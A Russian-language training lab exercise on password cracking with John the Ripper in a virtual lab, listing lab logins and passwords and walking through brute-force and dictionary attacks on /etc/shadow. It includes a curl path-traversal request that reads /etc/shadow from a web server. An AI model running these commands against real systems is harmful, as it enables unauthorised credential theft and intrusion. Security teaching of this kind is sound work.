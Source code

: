 ```yaml
---
Практическая работа:
    Название: 'Анализ информационных систем предприятия с точки зрения безопасности'
    Действие: 'Модуль Второй'
---
```

# **John**
**Время выполнения: 15 минут**

Имена пользователей и пароли:
```
Для denian
login: student 
password: 111
```
```
Для Windows
login: Admin 
password: Pa55w.rd
```
### **Практическая работа**

### **Задача 1: Установка и использование John**

Подключиться по SSH к виртуальной машине gate

Получите права супер пользователя.

```
student@debian:~$ su -
```
```
< Введите пароль пользователя student >
```

Создать пользователя с логином demouser и паролем 111

Получите права супер пользователя.

```
student@debian:~$ su -
```
```
< Введите пароль пользователя student >
```


```
apt install john
apt install wget
apt install curl
```

Тест
```
john --test
```

Поиск паролей перебором
```
john --format=crypt /etc/shadow
```
Поиск паролей по словарю


Скачиваем словарь паролей из интернета
```
wget https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt
```
Запускаем перебор паролей
```
john --wordlist=/root/10-million-password-list-top-1000000.txt --format=crypt /etc/shadow
```

Скачаем файл паролей с server
```
curl --path-as-is http://192.168.10.10/../../../etc/shadow > shadow.txt
```
Запускаем перебор паролей
```
john --wordlist=/root/10-million-password-list-top-1000000.txt --format=crypt shadow.txt
```
